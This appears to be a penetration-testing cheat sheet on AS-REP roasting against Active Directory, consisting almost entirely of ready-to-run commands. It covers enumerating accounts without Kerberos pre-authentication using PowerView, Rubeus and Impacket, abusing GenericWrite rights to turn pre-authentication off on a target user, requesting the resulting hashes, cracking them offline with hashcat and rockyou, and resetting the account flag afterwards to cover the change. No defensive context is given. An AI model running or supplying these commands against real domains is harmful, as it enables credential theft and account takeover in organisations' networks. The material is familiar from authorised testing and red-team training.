 **Prerequisites:**
- **GenericWrite** or **GenericAll** permissions on target user account
- **Attack Strategy**: Modify user account to disable pre-authentication
- **Post-Attack**: Reset User Account Control to original state

**PowerView User Enumeration:**
```powershell
# Identify users without pre-authentication requirement
Get-DomainUser -PreauthNotRequired
```

**Manual User Account Control Modification:**
```powershell
# Disable pre-authentication for target user (requires GenericWrite/GenericAll)
Set-DomainObject -Identity <target_user> -XOR @{useraccountcontrol=4194304}

# Perform AS-REP roasting
.\Rubeus.exe asreproast /user:<target_user> /nowrap

# Reset user account control (cleanup)
Set-DomainObject -Identity <target_user> -XOR @{useraccountcontrol=4194304}
```

### AS-REP Roasting Commands Reference

**Linux (Impacket):**
```bash
# Enumerate vulnerable users only
impacket-GetNPUsers -dc-ip <dc_ip> <domain>/<username>

# Full AS-REP roasting attack
impacket-GetNPUsers -dc-ip <dc_ip> -request -outputfile <output_file> <domain>/<username>

# Target specific user
impacket-GetNPUsers -dc-ip <dc_ip> -request -outputfile <output_file> <domain>/<username> -usersfile <user_list>
```

**Windows (Rubeus):**
```powershell
# Automatic vulnerable user discovery
.\Rubeus.exe asreproast /nowrap

# Target specific user
.\Rubeus.exe asreproast /user:<target_user> /nowrap

# Output to file
.\Rubeus.exe asreproast /outfile:<output_file> /nowrap

# Specify domain controller
.\Rubeus.exe asreproast /dc:<dc_fqdn> /nowrap
```

**Hash Cracking:**
```bash
# Crack AS-REP hash
hashcat -m 18200 <hash_file> <wordlist> -r <rules_file> --force

# Common wordlist and rules
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

---
